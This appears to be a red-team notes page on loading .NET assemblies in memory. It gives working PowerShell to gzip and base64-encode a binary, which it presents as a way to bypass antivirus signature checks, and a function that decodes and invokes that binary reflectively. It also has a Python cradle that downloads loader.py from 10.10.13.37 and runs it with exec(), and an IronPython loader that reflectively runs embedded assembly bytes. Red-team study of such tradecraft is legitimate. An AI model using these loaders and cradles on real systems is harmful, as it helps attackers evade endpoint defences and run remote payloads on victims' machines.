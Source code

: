 # .NET Reflective Assembly

- [https://blog.king-sabri.net/red-team/executing-c-assembly-in-memory-using-assembly.load](https://blog.king-sabri.net/red-team/executing-c-assembly-in-memory-using-assembly.load)
- [https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/](https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack)
- [https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
- [https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1](https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1)
- [https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html](https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html)
- [https://cyberstoph.org/posts/2020/09/convertto-powershell-wrapping-applications-with-ps/](https://cyberstoph.org/posts/2020/09/convertto-powershell-wrapping-applications-with-ps/)

A way to bypass AV signature analysis: you can gzip-compress and base64-encode a .NET assembly to load it reflectively via PowerShell right from memory (when compiling the binary, make `Program` class and its `Main` method **public**):

{% code title="CompressEncodeAssembly.ps1" %}
```powershell
$bytes = [System.IO.File]::ReadAllBytes("$(pwd)\binary.exe")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($outStream, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$outStream.Close()
[byte[]] $outBytes = $outStream.ToArray()
$b64Zipped = [System.Convert]::ToBase64String($outBytes)
$b64Zipped | Out-File -NoNewLine -Encoding ASCII .\b64.txt
notepad.exe .\b64.txt
```
{% endcode %}

This [blog post](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter) covers the topic in depth.

An example how the binary can be actually decoded, decompressed and run from memory:

{% code title="Invoke-S0m3B1n4ry.ps1" %}
```powershell
function Invoke-S0m3B1n4ry
{
	#[CmdletBinding()]
	#Param([String]$Command = " ")

	$a = New-Object System.IO.MemoryStream(, [System.Convert]::FromBase64String("..."))
	$b = New-Object System.IO.Compression.GZipStream($a, [System.IO.Compression.CompressionMode]::Decompress)
	$c = New-Object System.IO.MemoryStream;
	$b.CopyTo($c)
	[byte[]]$d = $c.ToArray()
	$e = [System.Reflection.Assembly]::Load($d)
	$f = [System.Console]::Out
	$g = New-Object System.IO.StringWriter
	[System.Console]::SetOut($g)

	$h = [Reflection.BindingFlags]"Public,NonPublic,Static"
	$i = $e.GetType("S0m3B1n4ry.Program", $h)
	$j = $i.GetMethod("Main", $h)
	$j.Invoke($null, (, [string[]]$args))
	#$i = [S0m3B1n4ry.Program]::Main($Command.Split())

	[System.Console]::SetOut($f)
	$k = $g.ToString()
	$k
}
```
{% endcode %}




## IronPython Loader

- [https://www.huntress.com/blog/snakes-on-a-domain-an-analysis-of-a-python-malware-loader](https://www.huntress.com/blog/snakes-on-a-domain-an-analysis-of-a-python-malware-loader)
- [https://github.com/IronLanguages/ironpython3/releases](https://github.com/IronLanguages/ironpython3/releases)
- [https://pythonnet.github.io/](https://pythonnet.github.io/)
- [https://github.com/BC-SECURITY/Empire/blob/master/empire/server/stagers/CSharpPy.yaml](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/stagers/CSharpPy.yaml)
- [https://github.com/BC-SECURITY/IronSharpPack](https://github.com/BC-SECURITY/IronSharpPack)

Cradle:

```python
>>> import urllib.request
>>> request = urllib.request.Request('http://10.10.13.37/loader.py')
>>> result = urllib.request.urlopen(request)
>>> payload = result.read()
>>> exec(payload)
```

Payload:

{% code title="loader.py" %}
```python
import clr
import zlib
import base64

clr.AddReference('System')
from System import *
from System.Reflection import *

b64 = base64.b64encode(zlib.decompress(base64.b64decode(b'<LOADER_BYTES_B64>'))).decode()
raw = Convert.FromBase64String(b64)

assembly = Assembly.Load(raw)
type = assembly.GetType('Loader.Program')
type.GetMethod('Main').Invoke(Activator.CreateInstance(type), None)
```
{% endcode %}
